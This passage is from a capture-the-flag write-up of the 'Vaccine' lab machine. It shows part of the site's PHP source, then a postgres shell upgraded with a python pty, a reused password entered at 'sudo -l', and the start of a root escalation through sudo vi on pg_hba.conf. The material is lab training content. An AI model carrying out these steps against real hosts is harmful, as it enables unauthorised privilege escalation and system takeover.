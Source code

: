 ```

	  if (!$result)
	  {
			    die(pg_last_error($conn));
	  }
	  while($row = pg_fetch_array($result, NULL, PGSQL_NUM))
	      {
		echo "
		  <tr>
		    <td class='lalign'>$row[1]</td>
		    <td>$row[2]</td>
		    <td>$row[3]</td>
		    <td>$row[4]</td>
		  </tr>";
	    }
	}


      ?>
    </tbody>
  </table>
 </div> 
</body>
<!-- partial -->
  <script src='https://cdnjs.cloudflare.com/ajax/libs/jquery/2.1.3/jquery.min.js'></script>
<script src='https://cdnjs.cloudflare.com/ajax/libs/jquery.tablesorter/2.28.14/js/jquery.tablesorter.min.js'></script><script  src="./dashboard.js"></script>

</body>
</html>
postgres@vaccine:/var/www/html$ 

```

This password can be used to view the user's sudo privileges.

```
postgres@vaccine:/var/lib/postgresql/11/main$ python3 -c "import pty;pty.spawn('/bin/bash')"

postgres@vaccine:/var/www/html$ sudo -l
sudo -l
[sudo] password for postgres: P@s5w0rd!

Matching Defaults entries for postgres on vaccine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf

postgres@vaccine:/var/lib/postgresql/11/main$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
